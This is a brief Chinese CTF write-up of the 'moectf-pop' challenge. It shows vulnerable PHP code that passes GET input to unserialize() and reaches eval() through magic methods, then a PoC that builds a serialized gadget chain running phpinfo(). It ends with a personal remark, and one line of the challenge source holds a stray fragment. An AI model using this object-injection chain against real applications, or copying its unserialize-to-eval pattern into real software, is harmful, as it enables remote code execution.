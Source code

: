 # moectf-pop

<br>

将近半年没有接触反序列化，上手竟觉得如此生疏，贴一下原题和poc

<br>

## 原题

<br>

````
<?php

class class000 {
ni



    public function __destruct()
    {
        $this->check();
    }

    public function check()
    {
        if($this->payl0ad === 0)
        {
            die('FAILED TO ATTACK');
        }
        $a = $this->what;
        $a();
    }
}

class class001 {
    public $payl0ad;
    public $a;
    public function __invoke()
    {
        $this->a->payload = $this->payl0ad;
    }
}

class class002 {
    private $sec;
    public function __set($a, $b)
    {
        $this->$b($this->sec);
    }
    public function dangerous($whaattt)
    {
        $whaattt->evvval($this->sec);
    }

}

class class003 {
    public $mystr;
    public function evvval($str)
    {
        eval($str);
    }

    public function __tostring()
    {
        return $this->mystr;
    }
}

if(isset($_GET['data']))
{
    $a = unserialize($_GET['data']);
}
else {
    highlight_file(__FILE__);
}
````

<br>

## Poc

<br>

````
<?php

class class000 {
    private $payl0ad=1;
    public $what='class001';


}

class class001 {
    public $payl0ad='echo';
    public $a;

}

class class002 {
    public $sec;


}

class class003 {
    public $mystr;

}

$x=new class000;
$y=new class001;
$z=new class002;
$p=new class003;

$x->what = $y;
$y->a=$z;
$y->payl0ad='dangerous';
$z->sec=$p;
$p->mystr='phpinfo();';

echo urlencode(serialize($x));
?>
````

<br>

这里特别注意一下因为eval函数执行的是php命令，记得带上";"



<br>

## 写在后面

<br>

最近心情是真的低落，有点回到疫情的时候的感觉了。去年夏天的阴影还是没法缓解，每每想起就害怕得想哭。估计是呆在家里太久，把人闷出事了。希望能赶快调整回来